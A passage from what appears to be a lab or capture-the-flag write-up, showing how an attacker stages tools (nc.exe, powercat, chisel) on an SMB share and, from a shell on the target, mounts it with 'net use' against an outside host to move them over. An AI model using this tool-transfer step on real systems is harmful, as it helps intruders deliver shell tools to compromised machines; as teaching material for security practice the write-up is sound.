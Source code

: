 ![](/img/1555362515417.png)

Now the share is ready to go. I can drop `nc.exe` or other tools in
there I may want to move to target.

#### Connecting

With a shell on target, I can now connect to the share on CommandoVM
with `net use`. I'll just make sure to include dummy's username and
password:



    [hostname]: PS C:\Users\[username]\Documents> net use /u:dummy \\10.10.14.14\share [password]
    The command completed successfully.



Now I can check out the share, and copy to and from it:



    [hostname]: PS C:\Users\[username]\Documents> dir \\10.10.14.14\share


        Directory: \\10.10.14.14\share


    Mode                LastWriteTime         Length Name
    ----                -------------         ------ ----
    -a----        4/10/2019  10:44 PM        7613952 chisel_windows_amd64.exe
    -a----        9/17/2011  12:52 AM          38616 nc.exe
    -a----        9/17/2011  12:52 AM          45272 nc64.exe
    -a----        4/12/2019   1:54 PM          37641 powercat.ps1
